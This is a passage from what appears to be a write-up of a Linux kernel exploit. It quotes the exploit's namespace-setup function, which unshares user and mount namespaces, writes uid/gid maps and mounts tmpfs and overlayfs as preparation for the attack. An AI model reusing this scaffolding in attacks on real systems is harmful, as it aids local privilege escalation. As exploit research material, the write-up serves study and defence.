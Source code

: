 ### Step1.2: Setup namespaces and mount userful filesystems
- [exploit.c#L887](./exploit.c#L887):

```c
if (!setup_namespace())
  return EXIT_FAILURE;
```

- [exploit.c#L528](./exploit.c#L528):

```c
bool setup_namespace(void)
{
  int real_uid = getuid();
  int real_gid = getgid();

  if (unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWIPC) < 0) {
    perror("unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWIPC)");
    return false;
  }

  if (!write_to_file("/proc/self/setgroups", "deny"))
    return false;

  if (!write_to_file("/proc/self/uid_map", "0 %d 1\n", real_uid))
    return false;

  if (!write_to_file("/proc/self/gid_map", "0 %d 1\n", real_gid))
    return false;

  mkdir(TMPFS_MOUNT_POINT, 0644);
  if (mount("none", TMPFS_MOUNT_POINT, "tmpfs", 0, NULL) < 0) {
    fprintf(stderr, "mount %s(type: tmpfs): %s\n", TMPFS_MOUNT_POINT, strerror(errno));
    return false;
  }

  mkdir(OVERLAYFS_MOUNT_POINT, 0644);
  mkdir(OVERLAYFS_LOWER_DIR_1, 0644);
  mkdir(OVERLAYFS_LOWER_DIR_2, 0644);

  char overlayfs_mount_options[512];
  snprintf(overlayfs_mount_options, sizeof(overlayfs_mount_options), "lowerdir=%s:%s",
    OVERLAYFS_LOWER_DIR_1, OVERLAYFS_LOWER_DIR_2);

  if (mount("overlay", OVERLAYFS_MOUNT_POINT, "overlay", 0, overlayfs_mount_options) < 0) {
    fprintf(stderr, "mount %s(type: overlayfs): %s\n", OVERLAYFS_MOUNT_POINT, strerror(errno));
    return false;
  }

  return true;
}
```
